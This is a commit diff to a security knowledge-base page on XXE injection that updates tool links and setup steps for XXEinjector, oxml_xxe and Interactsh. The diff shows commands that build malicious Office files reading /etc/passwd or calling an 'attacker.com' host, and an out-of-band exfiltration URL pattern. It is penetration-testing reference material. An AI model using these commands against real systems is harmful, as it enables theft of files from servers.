

Before and after one commit to HansMolemanPNG/hansmolemanpng.github.io, an MkDocs documentation site: the page built from docs/kb/injection-attacks/xxe.md, in a window 1280 px wide and 1400 px high, scrolled down 48256 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Update xxe.md

````diff
--- a/docs/kb/injection-attacks/xxe.md
+++ b/docs/kb/injection-attacks/xxe.md
@@ -1753,13 +1753,13 @@
 |Tool                       |Purpose                                 |Usage                                              |
 |---------------------------|----------------------------------------|---------------------------------------------------|
 |**XXEinjector**            |Automated XXE payload generation        |`./xxeinjector.py -u http://target.com -f file`    |
-|**oxml_xxe**               |XXE in Office documents (DOCX, XLSX)    |`python oxml_xxe.py generate -t xlsx`              |
+|**oxml_xxe**               |XXE in Office documents (DOCX, XLSX)    |`ruby server.rb`              |
 |**Burp Suite Collaborator**|OOB XXE detection and exfiltration      |Built-in to Burp Suite Pro                         |
 |**Interactsh**             |Free OOB interaction logging (DNS, HTTP)|`./interactsh-client`                              |
 |**PayloadsAllTheThings**   |XXE payload repository                  |https://github.com/swisskyrepo/PayloadsAllTheThings|
 |**CyberChef**              |Payload encoding/transformation         |https://cyberchef.io/                              |
 
-### XXEinjector
+### [XXEinjector](https://github.com/enjoiz/xxeinjector)
 
 ```bash
 git clone https://github.com/enjoiz/XXEinjector.git
@@ -1768,20 +1768,19 @@
 ./xxeinjector.py -u http://target.com -t bing -p http://127.0.0.1:8080/admin
 ```
 
-### oxml_xxe
+### [oxml_xxe](https://github.com/BuffaloWill/oxml_xxe)
 
 ```bash
-pip install oxml_xxe
-python -m oxml_xxe generate -t xlsx -p "file:///etc/passwd" -o malicious.xlsx
-python -m oxml_xxe generate -t docx -p "http://attacker.com/?data=test" -o malicious.docx
-```
-
-### Interactsh
+apt-get install -y make git libsqlite3-dev libxslt-dev libxml2-dev zlib1g-dev gcc ruby3.2 g++
+gem install bundler
+bundle install
+ruby server.rb
+```
+
+### [Interactsh](https://github.com/projectdiscovery/interactsh)
 
 ```bash
-wget https://github.com/projectdiscovery/interactsh/releases/download/v1.0.0/interactsh-client_1.0.0_linux_amd64.zip
-unzip interactsh-client_1.0.0_linux_amd64.zip
-./interactsh-client
+go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest
 # Use the generated domain in XXE payloads: http://<YOUR_INTERACTSH_DOMAIN>/?data=%file;
 ```
 
````
